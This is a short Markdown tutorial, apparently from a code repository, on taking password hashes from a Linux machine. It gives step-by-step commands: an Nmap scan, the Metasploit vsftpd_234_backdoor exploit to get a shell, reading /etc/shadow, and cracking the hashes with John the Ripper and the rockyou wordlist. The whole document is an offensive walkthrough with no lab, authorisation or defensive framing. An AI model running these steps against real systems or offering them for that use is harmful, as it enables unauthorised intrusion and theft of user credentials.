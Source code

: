 # Password Hash Extraction from Linux-Based Systems

Find the target machine IP address using Nmap

then run `msfconsole`

Once inside `msfconsole`, search for the `vsftpd` command by typing `search vsftpd`. This will show you any available exploits related to `vsftpd`, which is a popular FTP server often used in Linux-based systems.

Next, select the `vsftpd_234_backdoor` exploit by typing `use exploit/unix/ftp/vsftpd_234_backdoor`. This will set the exploit to be used in the following steps.

Next, set the target ip address by typing `set RHOSTS <ip>` where `<ip>` is the IP address of the target machine you identified with nmap.

Finally, exploit the target machine by typing `exploit`. This will run the selected `vsftpd_234_backdoor` exploit on the target machine, allowing you to extract password hashes.

When you get the target system shell, type `cat /etc/shadow`

Copy hashes somewhere as a text file. 

On your Linux terminal:

```bash
john user_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

This command will run John the Ripper, a popular password cracking tool, on the file containing the password hashes (`user_hashes.txt`). It will use the `rockyou.txt` wordlist to try to crack the password hashes.

After running the previous command, you can view the cracked passwords by typing `john --show user_hashes.txt`. This will display the passwords that were successfully cracked by John the Ripper.